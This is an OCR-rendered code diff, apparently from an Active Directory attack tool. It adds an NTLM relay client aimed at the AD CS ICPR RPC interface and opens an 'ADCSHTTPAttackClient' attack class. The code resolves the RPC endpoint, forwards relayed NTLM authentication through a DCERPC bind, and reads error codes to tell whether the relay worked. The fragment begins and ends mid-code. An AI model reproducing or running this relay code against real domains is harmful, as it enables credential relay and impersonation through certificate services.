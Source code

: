 ```diff
+        )
+
+        self.endpoint = "ICPR"
+
+        self.endpoint_uuid = MSRPC_UUID_ICPR
+
+        logging.info(
+            "Connecting to ncacn_ip_tcp:%s[135] to determine %s stringbinding"
+            % (target.netloc, self.endpoint)
+        )
+        self.stringbinding = epm.hept_map(
+            target.netloc, self.endpoint_uuid, protocol="ncacn_ip_tcp"
+        )
+
+        logging.debug("%s stringbinding is %s" % (self.endpoint, self.stringbinding))
+
+    def sendAuth(self, authenticateMessageBlob, serverChallenge=None):
+        if (
+            unpack("B", authenticateMessageBlob[:1])[0]
+            == SPNEGO_NegTokenResp.SPNEGO_NEG_TOKEN_RESP
+        ):
+            respToken2 = SPNEGO_NegTokenResp(authenticateMessageBlob)
+            auth_data = respToken2["ResponseToken"]
+        else:
+            auth_data = authenticateMessageBlob
+
+        self.session.sendBindType3(auth_data)
+
+        try:
+            req = rpcrelayclient.DummyOp()
+            self.session.request(req)
+        except rpcrelayclient.DCERPCException as e:
+            if "nca_s_op_rng_error" in str(e) or "RPC_E_INVALID_HEADER" in str(e):
+                return None, STATUS_SUCCESS
+            elif "rpc_s_access_denied" in str(e):
+                return None, STATUS_ACCESS_DENIED
+            else:
+                logging.info(
+                    "Unexpected rpc code received from %s: %s"
+                    % (self.stringbinding, str(e))
+                )
+                return None, STATUS_ACCESS_DENIED
+
+    def killConnection(self):
+        if self.session is not None:
+            self.session.get_rpc_transport().disconnect()
+            self.session = None
+
+    def keepAlive(self):
+        try:
+            req = rpcrelayclient.DummyOp()
+            self.session.request(req)
+        except rpcrelayclient.DCERPCException as e:
+            if "nca_s_op_rng_error" not in str(e) or "RPC_E_INVALID_HEADER" not in str(
+                e
+            ):
+                raise
+
+
+class ADCSHTTPAttackClient(ProtocolAttack):
     def run(self):
         self.adcs_relay.attack_lock.acquire()
         try:
```